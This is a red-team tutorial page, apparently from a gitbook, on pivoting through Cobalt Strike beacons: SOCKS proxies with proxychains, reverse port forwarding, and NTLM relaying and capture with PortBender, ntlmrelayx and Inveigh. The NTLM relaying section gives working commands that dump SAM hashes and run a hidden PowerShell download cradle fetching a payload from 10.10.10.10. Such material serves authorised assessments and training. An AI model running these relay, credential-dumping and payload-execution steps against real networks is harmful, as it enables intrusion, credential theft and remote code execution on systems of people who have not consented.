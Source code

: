 ```yaml
---
title: Pivoting
category: Red Team
order: 10
---
```


Pivoting are post-explotaiton techniques that allows us to access to the network where we have just landed.

# SOCKS Proxies

A SOCKS (Secure Socket) Proxy exchanges network packets between a client and a server via a "proxy".

It's very useful when we need to leverage with others toolsets that are only available in linux such as impacket.

> **Note**: The port will binding on the Team Server.

To start a socks proxy we can use:

* SOCKS4:
```
beacon> socks [port]
```
* SOCKS5 with password:
```
beacon> socks [post] socks5 disableNoAuth [socks_user] [socks_password] enableLogging
```

Finally we can access it with `proxychains`, but first we need to configure `/etc/proxychains.conf` file.

* SOCKS4:
```
socks4 127.0.0.1 [port]
```
* SOCKS5 with password:
```
socks5 127.0.0.1 [port] [socks_user] [socks_password]
```

```
proxychains -q [command] [arguments]
```

# Windows Apps

It is also possible to tunnel Windows GUI apps using `proxifier`.

* [https://www.proxifier.com/](https://www.proxifier.com/)

With Proxifier we can specify which application we want to tunneling.


# Port Forwarding

I will not explain what is a port forwarding since is detailed on `Post-Exploitation` section on this gitbook, but we will discuss how to execute it from Cobalt Strike.

```
beacon> rportfwd 8080 10.10.10.10 80
[+] started reverse port forward on 8080 to 10.10.10.10:80
```

To stop the forwarding:

```
beacon> rportfw stop 8080
```

> **Notes**:
> * Beacon's reverse port forward always tunnels the traffic to the Team Server and the Team Server sends the traffic to its intended destintation.
> * The traffic is tunnelled inside the Beacon's C2 traffic, not over separate sockets.
> * You don't need to be a local admin to create reverse port forwards on high ports.

`rportfwd_local` will tunnel the traffic to the machine running Cobalt Strike client instead of the Team Server.

```
beacon> rportfwd_local 443 127.0.0.1 443
[+] started reverse port forward on 443 to mvc1009 -> 127.0.0.1:443
```

# NTLM Relaying

During an on-premise assessments, NTLM relaying with tools like `responder` and `ntlmrelayx` is quite trivial. However in red team assessment, is not quite trivial because port 445 is always bound and in use by Windows machines.

It's still possible with Cobalt Strike, but requires the use of multiple capabilities.

1. Use a driver `WinDivert` to redirect traffic destinated for port 445 to another port (4445). It requires local admin access in order for loading the driver. Upload the driver to `C:\Windows\System32\drivers` since this is where most windows drivers go.

```
beacon> cd C:\Windows\System32\drivers
beacon> upload C:\Tools\PortBender\WinDivert64.sys
```
 * PortBender: [https://github.com/praetorian-inc/PortBender](https://github.com/praetorian-inc/PortBender)

Load `PortBender.cna` aggressor script and redirect the traffic.

```
beacon> PortBender redirect 445 4445
```

2. Create a reverse port forwarding that will then relay the traffic from port 4445 to port 445 on the Team Server where `ntlmrelayx` will be waiting.

```
beacon> rportfwd 4445 127.0.0.1 445
```

3. A SOCKS proxy is required to allow `ntlmrelayx` to send traffic back into the network.

```
beacon> socks 5566
```

4. Finally on the Team Server execute the `ntlmrelayx` tool, by default will execute `secretsdump` to dump local SAM hashes on the target machine.

```
proxychains -q python3 /usr/local/bin/ntlmrelayx.py -t smb://<target-ip> -smb2support --no-http-server --no-wcf-server
```

Instead of dumping SAM we can execute payloads such as beacons.

```
proxychains -q python3 /usr/local/bin/ntlmrelayx.py -t smb://<target-ip> -smb2support --no-http-server --no-wcf-server -c 'powershell -nop -w hidden -c "IEX(New-Object Net-WebClient).DownloadString(\"http://10.10.10.10/a\")"'
```

To stop `PortBender` just kill the process.

```
beacon> jobs
[*] Jobs

 JID  PID   Description
 ---  ---   -----------
 0    1240  PortBender

beacon> jobkill 0
beacon> kill 1240
```

# NTLM Capturing

We can use `Inveigh` to listen to incoming requests, similar to `Responder` but in .NET.

* [https://github.com/Kevin-Robertson/Inveigh](https://github.com/Kevin-Robertson/Inveigh)

`Inveigh` should be run as a local admin.

```
beacon> execute-assembly C:\Tools\Inveigh.exe -DNS N -LLMNR N -LLMNRv6 N -HTTP N -FileOutput N
```

It it also possible use the WinDivert, rportfwd and smbserver to capture the NetTLMHash.
